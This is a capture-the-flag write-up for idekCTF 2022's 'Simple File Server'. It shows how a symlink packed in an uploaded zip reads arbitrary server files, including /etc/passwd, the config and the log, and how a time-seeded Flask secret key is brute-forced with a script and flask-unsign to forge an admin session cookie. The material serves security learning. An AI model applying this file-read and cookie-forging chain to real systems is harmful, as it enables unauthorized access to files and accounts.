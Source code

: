 ```yaml
---
layout: post
title: idekCTF 2022 - Simple File Server
---
```


Simple File Server was a medium difficulty web challenge from idekCTF 2022. We abuse an symbolic link within a zip file to achieve arbitrary file read. This allows reading flask configuration files, which in combination with server initialisation time from web server logs can be used to determine the flask secret key. This can then be used to forge a flask session cookie that gives access to the flag endpoint.

---

The challenge included a fairly simple web application. There are both login and register options. We register a user `guest:guest` and continue. We are now presented with a file upload functionality.

[![](/assets/image/attachments/2023-02-07-idekCTF2022-simple-file-server.png)](/assets/image/attachments/2023-02-07-idekCTF2022-simple-file-server.png){:.glightbox}

We see we can upload a zip file and it will be automatically extracted. Let's look at the code for the endpoint.

```python
...

@app.route("/upload", methods=["GET", "POST"])
def upload():
    if not session.get("uid"):
        return redirect("/login")
    if request.method == "GET":
        return render_template("upload.html")

    if "file" not in request.files:
        flash("You didn't upload a file!", "danger")
        return render_template("upload.html")

    file = request.files["file"]
    uuidpath = str(uuid.uuid4())
    filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
    flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
    logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
    return redirect("/upload")

...
```

The interesting part is the line `subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])`. It is not possible to use a zip slip style attack here because the `unzip` binary patches it directly. It is however, possible to use symbolic links. How does that work? well if we create a soft link like so:
```
$ ln -s ../../../../../../../etc/passwd symlink.txt
```

And zip it into zip file with the `--symlinks` argument with:

```
$ zip --symlinks test.zip symlink.txt
```

When the file is unzipped on the remote server, the symbolic link will be preserved, allowing us to read any file we know the path of onn the remote server. Because the Dockerfile is included with the challenge we can verify the location of any file we want to read. 

There is a config file with a redacted secret, so let's read that first

```
$ ln -s ../../../../../../../app/config.py symlink.txt
$ zip --symlinks test.zip symlink.txt
```

Upload test.zip and navigate to `/uploads/<uuid>/symlink.txt` and read the remote file.

```python
import random
import os
import time

# SECRET_OFFSET = 0 # On our local copy, this is REDACTED
SECRET_OFFSET = -67198624  # True value from the remote server
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

With this, we have one of the two pieces to reverse the value used to seed the random number generator, which would allow us to reverse the flask secret key. We don't know what time the server started is the only problem...

Let's take another look at the top of `app.py`.

```python
import logging
import os
import re
import sqlite3
import subprocess
import uuid
import zipfile

from flask import (Flask, flash, redirect, render_template, request, abort,
                   send_from_directory, session)
from werkzeug.security import check_password_hash, generate_password_hash


app = Flask(__name__)
DATA_DIR = "/tmp/"

# Uploads can only be 2MB in size
app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000

# Configure logging
LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
logger = logging.getLogger("application")
logger.addHandler(LOG_HANDLER)
logger.propagate = False
for handler in logging.root.handlers[:]:
    logging.root.removeHandler(handler)
logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
logging.getLogger().addHandler(logging.StreamHandler())

...

```

Included in the log format is a timestamp, `asctime`. If there was a log message when the server started we can use that to get a close estimate to the output of `time.time()`, and we can bruteforce around it to find the exact value.

We retrieve `/tmp/server.log` via the same method as before and find the timestamp `2023-01-14 19:57:21 +0000`. We use an online epoch converter and find the corresponding timestamp to be 1673726220. With the missing information now obtained we can start reversing the seed. The only problem left is that the timestamp we get is only accurate to the seconds precision, but `time.time()` has a millisecond component, and the `* 1000` means that the first three decimal places become significant. For example:
```
# we have
1673726220
# which is equivalent to
1673726220.0000000
# but the true timestamp is 
1673726220.ABCDEFG
# so after the * 1000 we have
1673726220ABC.DEFG
# after round
1673726220ABC
```

So we need to bruteforce the last three digits, let's go two seconds both directions to account for any discrepancies between the logs and `time.time()`.

```python
import random
import os
import time

SECRET_OFFSET = -67198624


#os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")

timestamp = 1673726220

timestamp =  timestamp + SECRET_OFFSET

start = (timestamp - 2) * 1000
end = (timestamp + 2) * 1000


with open("keys", 'w') as fh:
    for i in range(start, end):
        random.seed(i)
        fh.write("".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "") + '\n')

```

With the file of possible keys, we can now bruteforce our flask session with the utility `flask-unsign`.

```
$ flask-unsign -u -c 'eyJhZG1pbiI6ZmFsc2UsInVpZCI6ImFkbWluIn0.Y8MJOg.amfLkMNcyPV_uJ1Wjt65_4S2Ago' --wordlist keys --threads 10 --no-literal-eval  
[*] Session decodes to: {'admin': False, 'uid': 'guest'} 
[*] Starting brute-forcer with 10 threads.. 
[+] Found secret key after 1792 attemptseced99571547 
b'950b781d9bc7f04e697db73c1b3e5496'
```

Now we sign it with:

```
$ flask-unsign -s -c '{'admin': True, 'uid': 'admin'}' --secret '950b781d9bc7f04e697db73c1b3e5496'
```

Update the session cookie in your browser, and browse to `/flag` to get the flag.

idek{s1mpl3_expl01t_s3rver}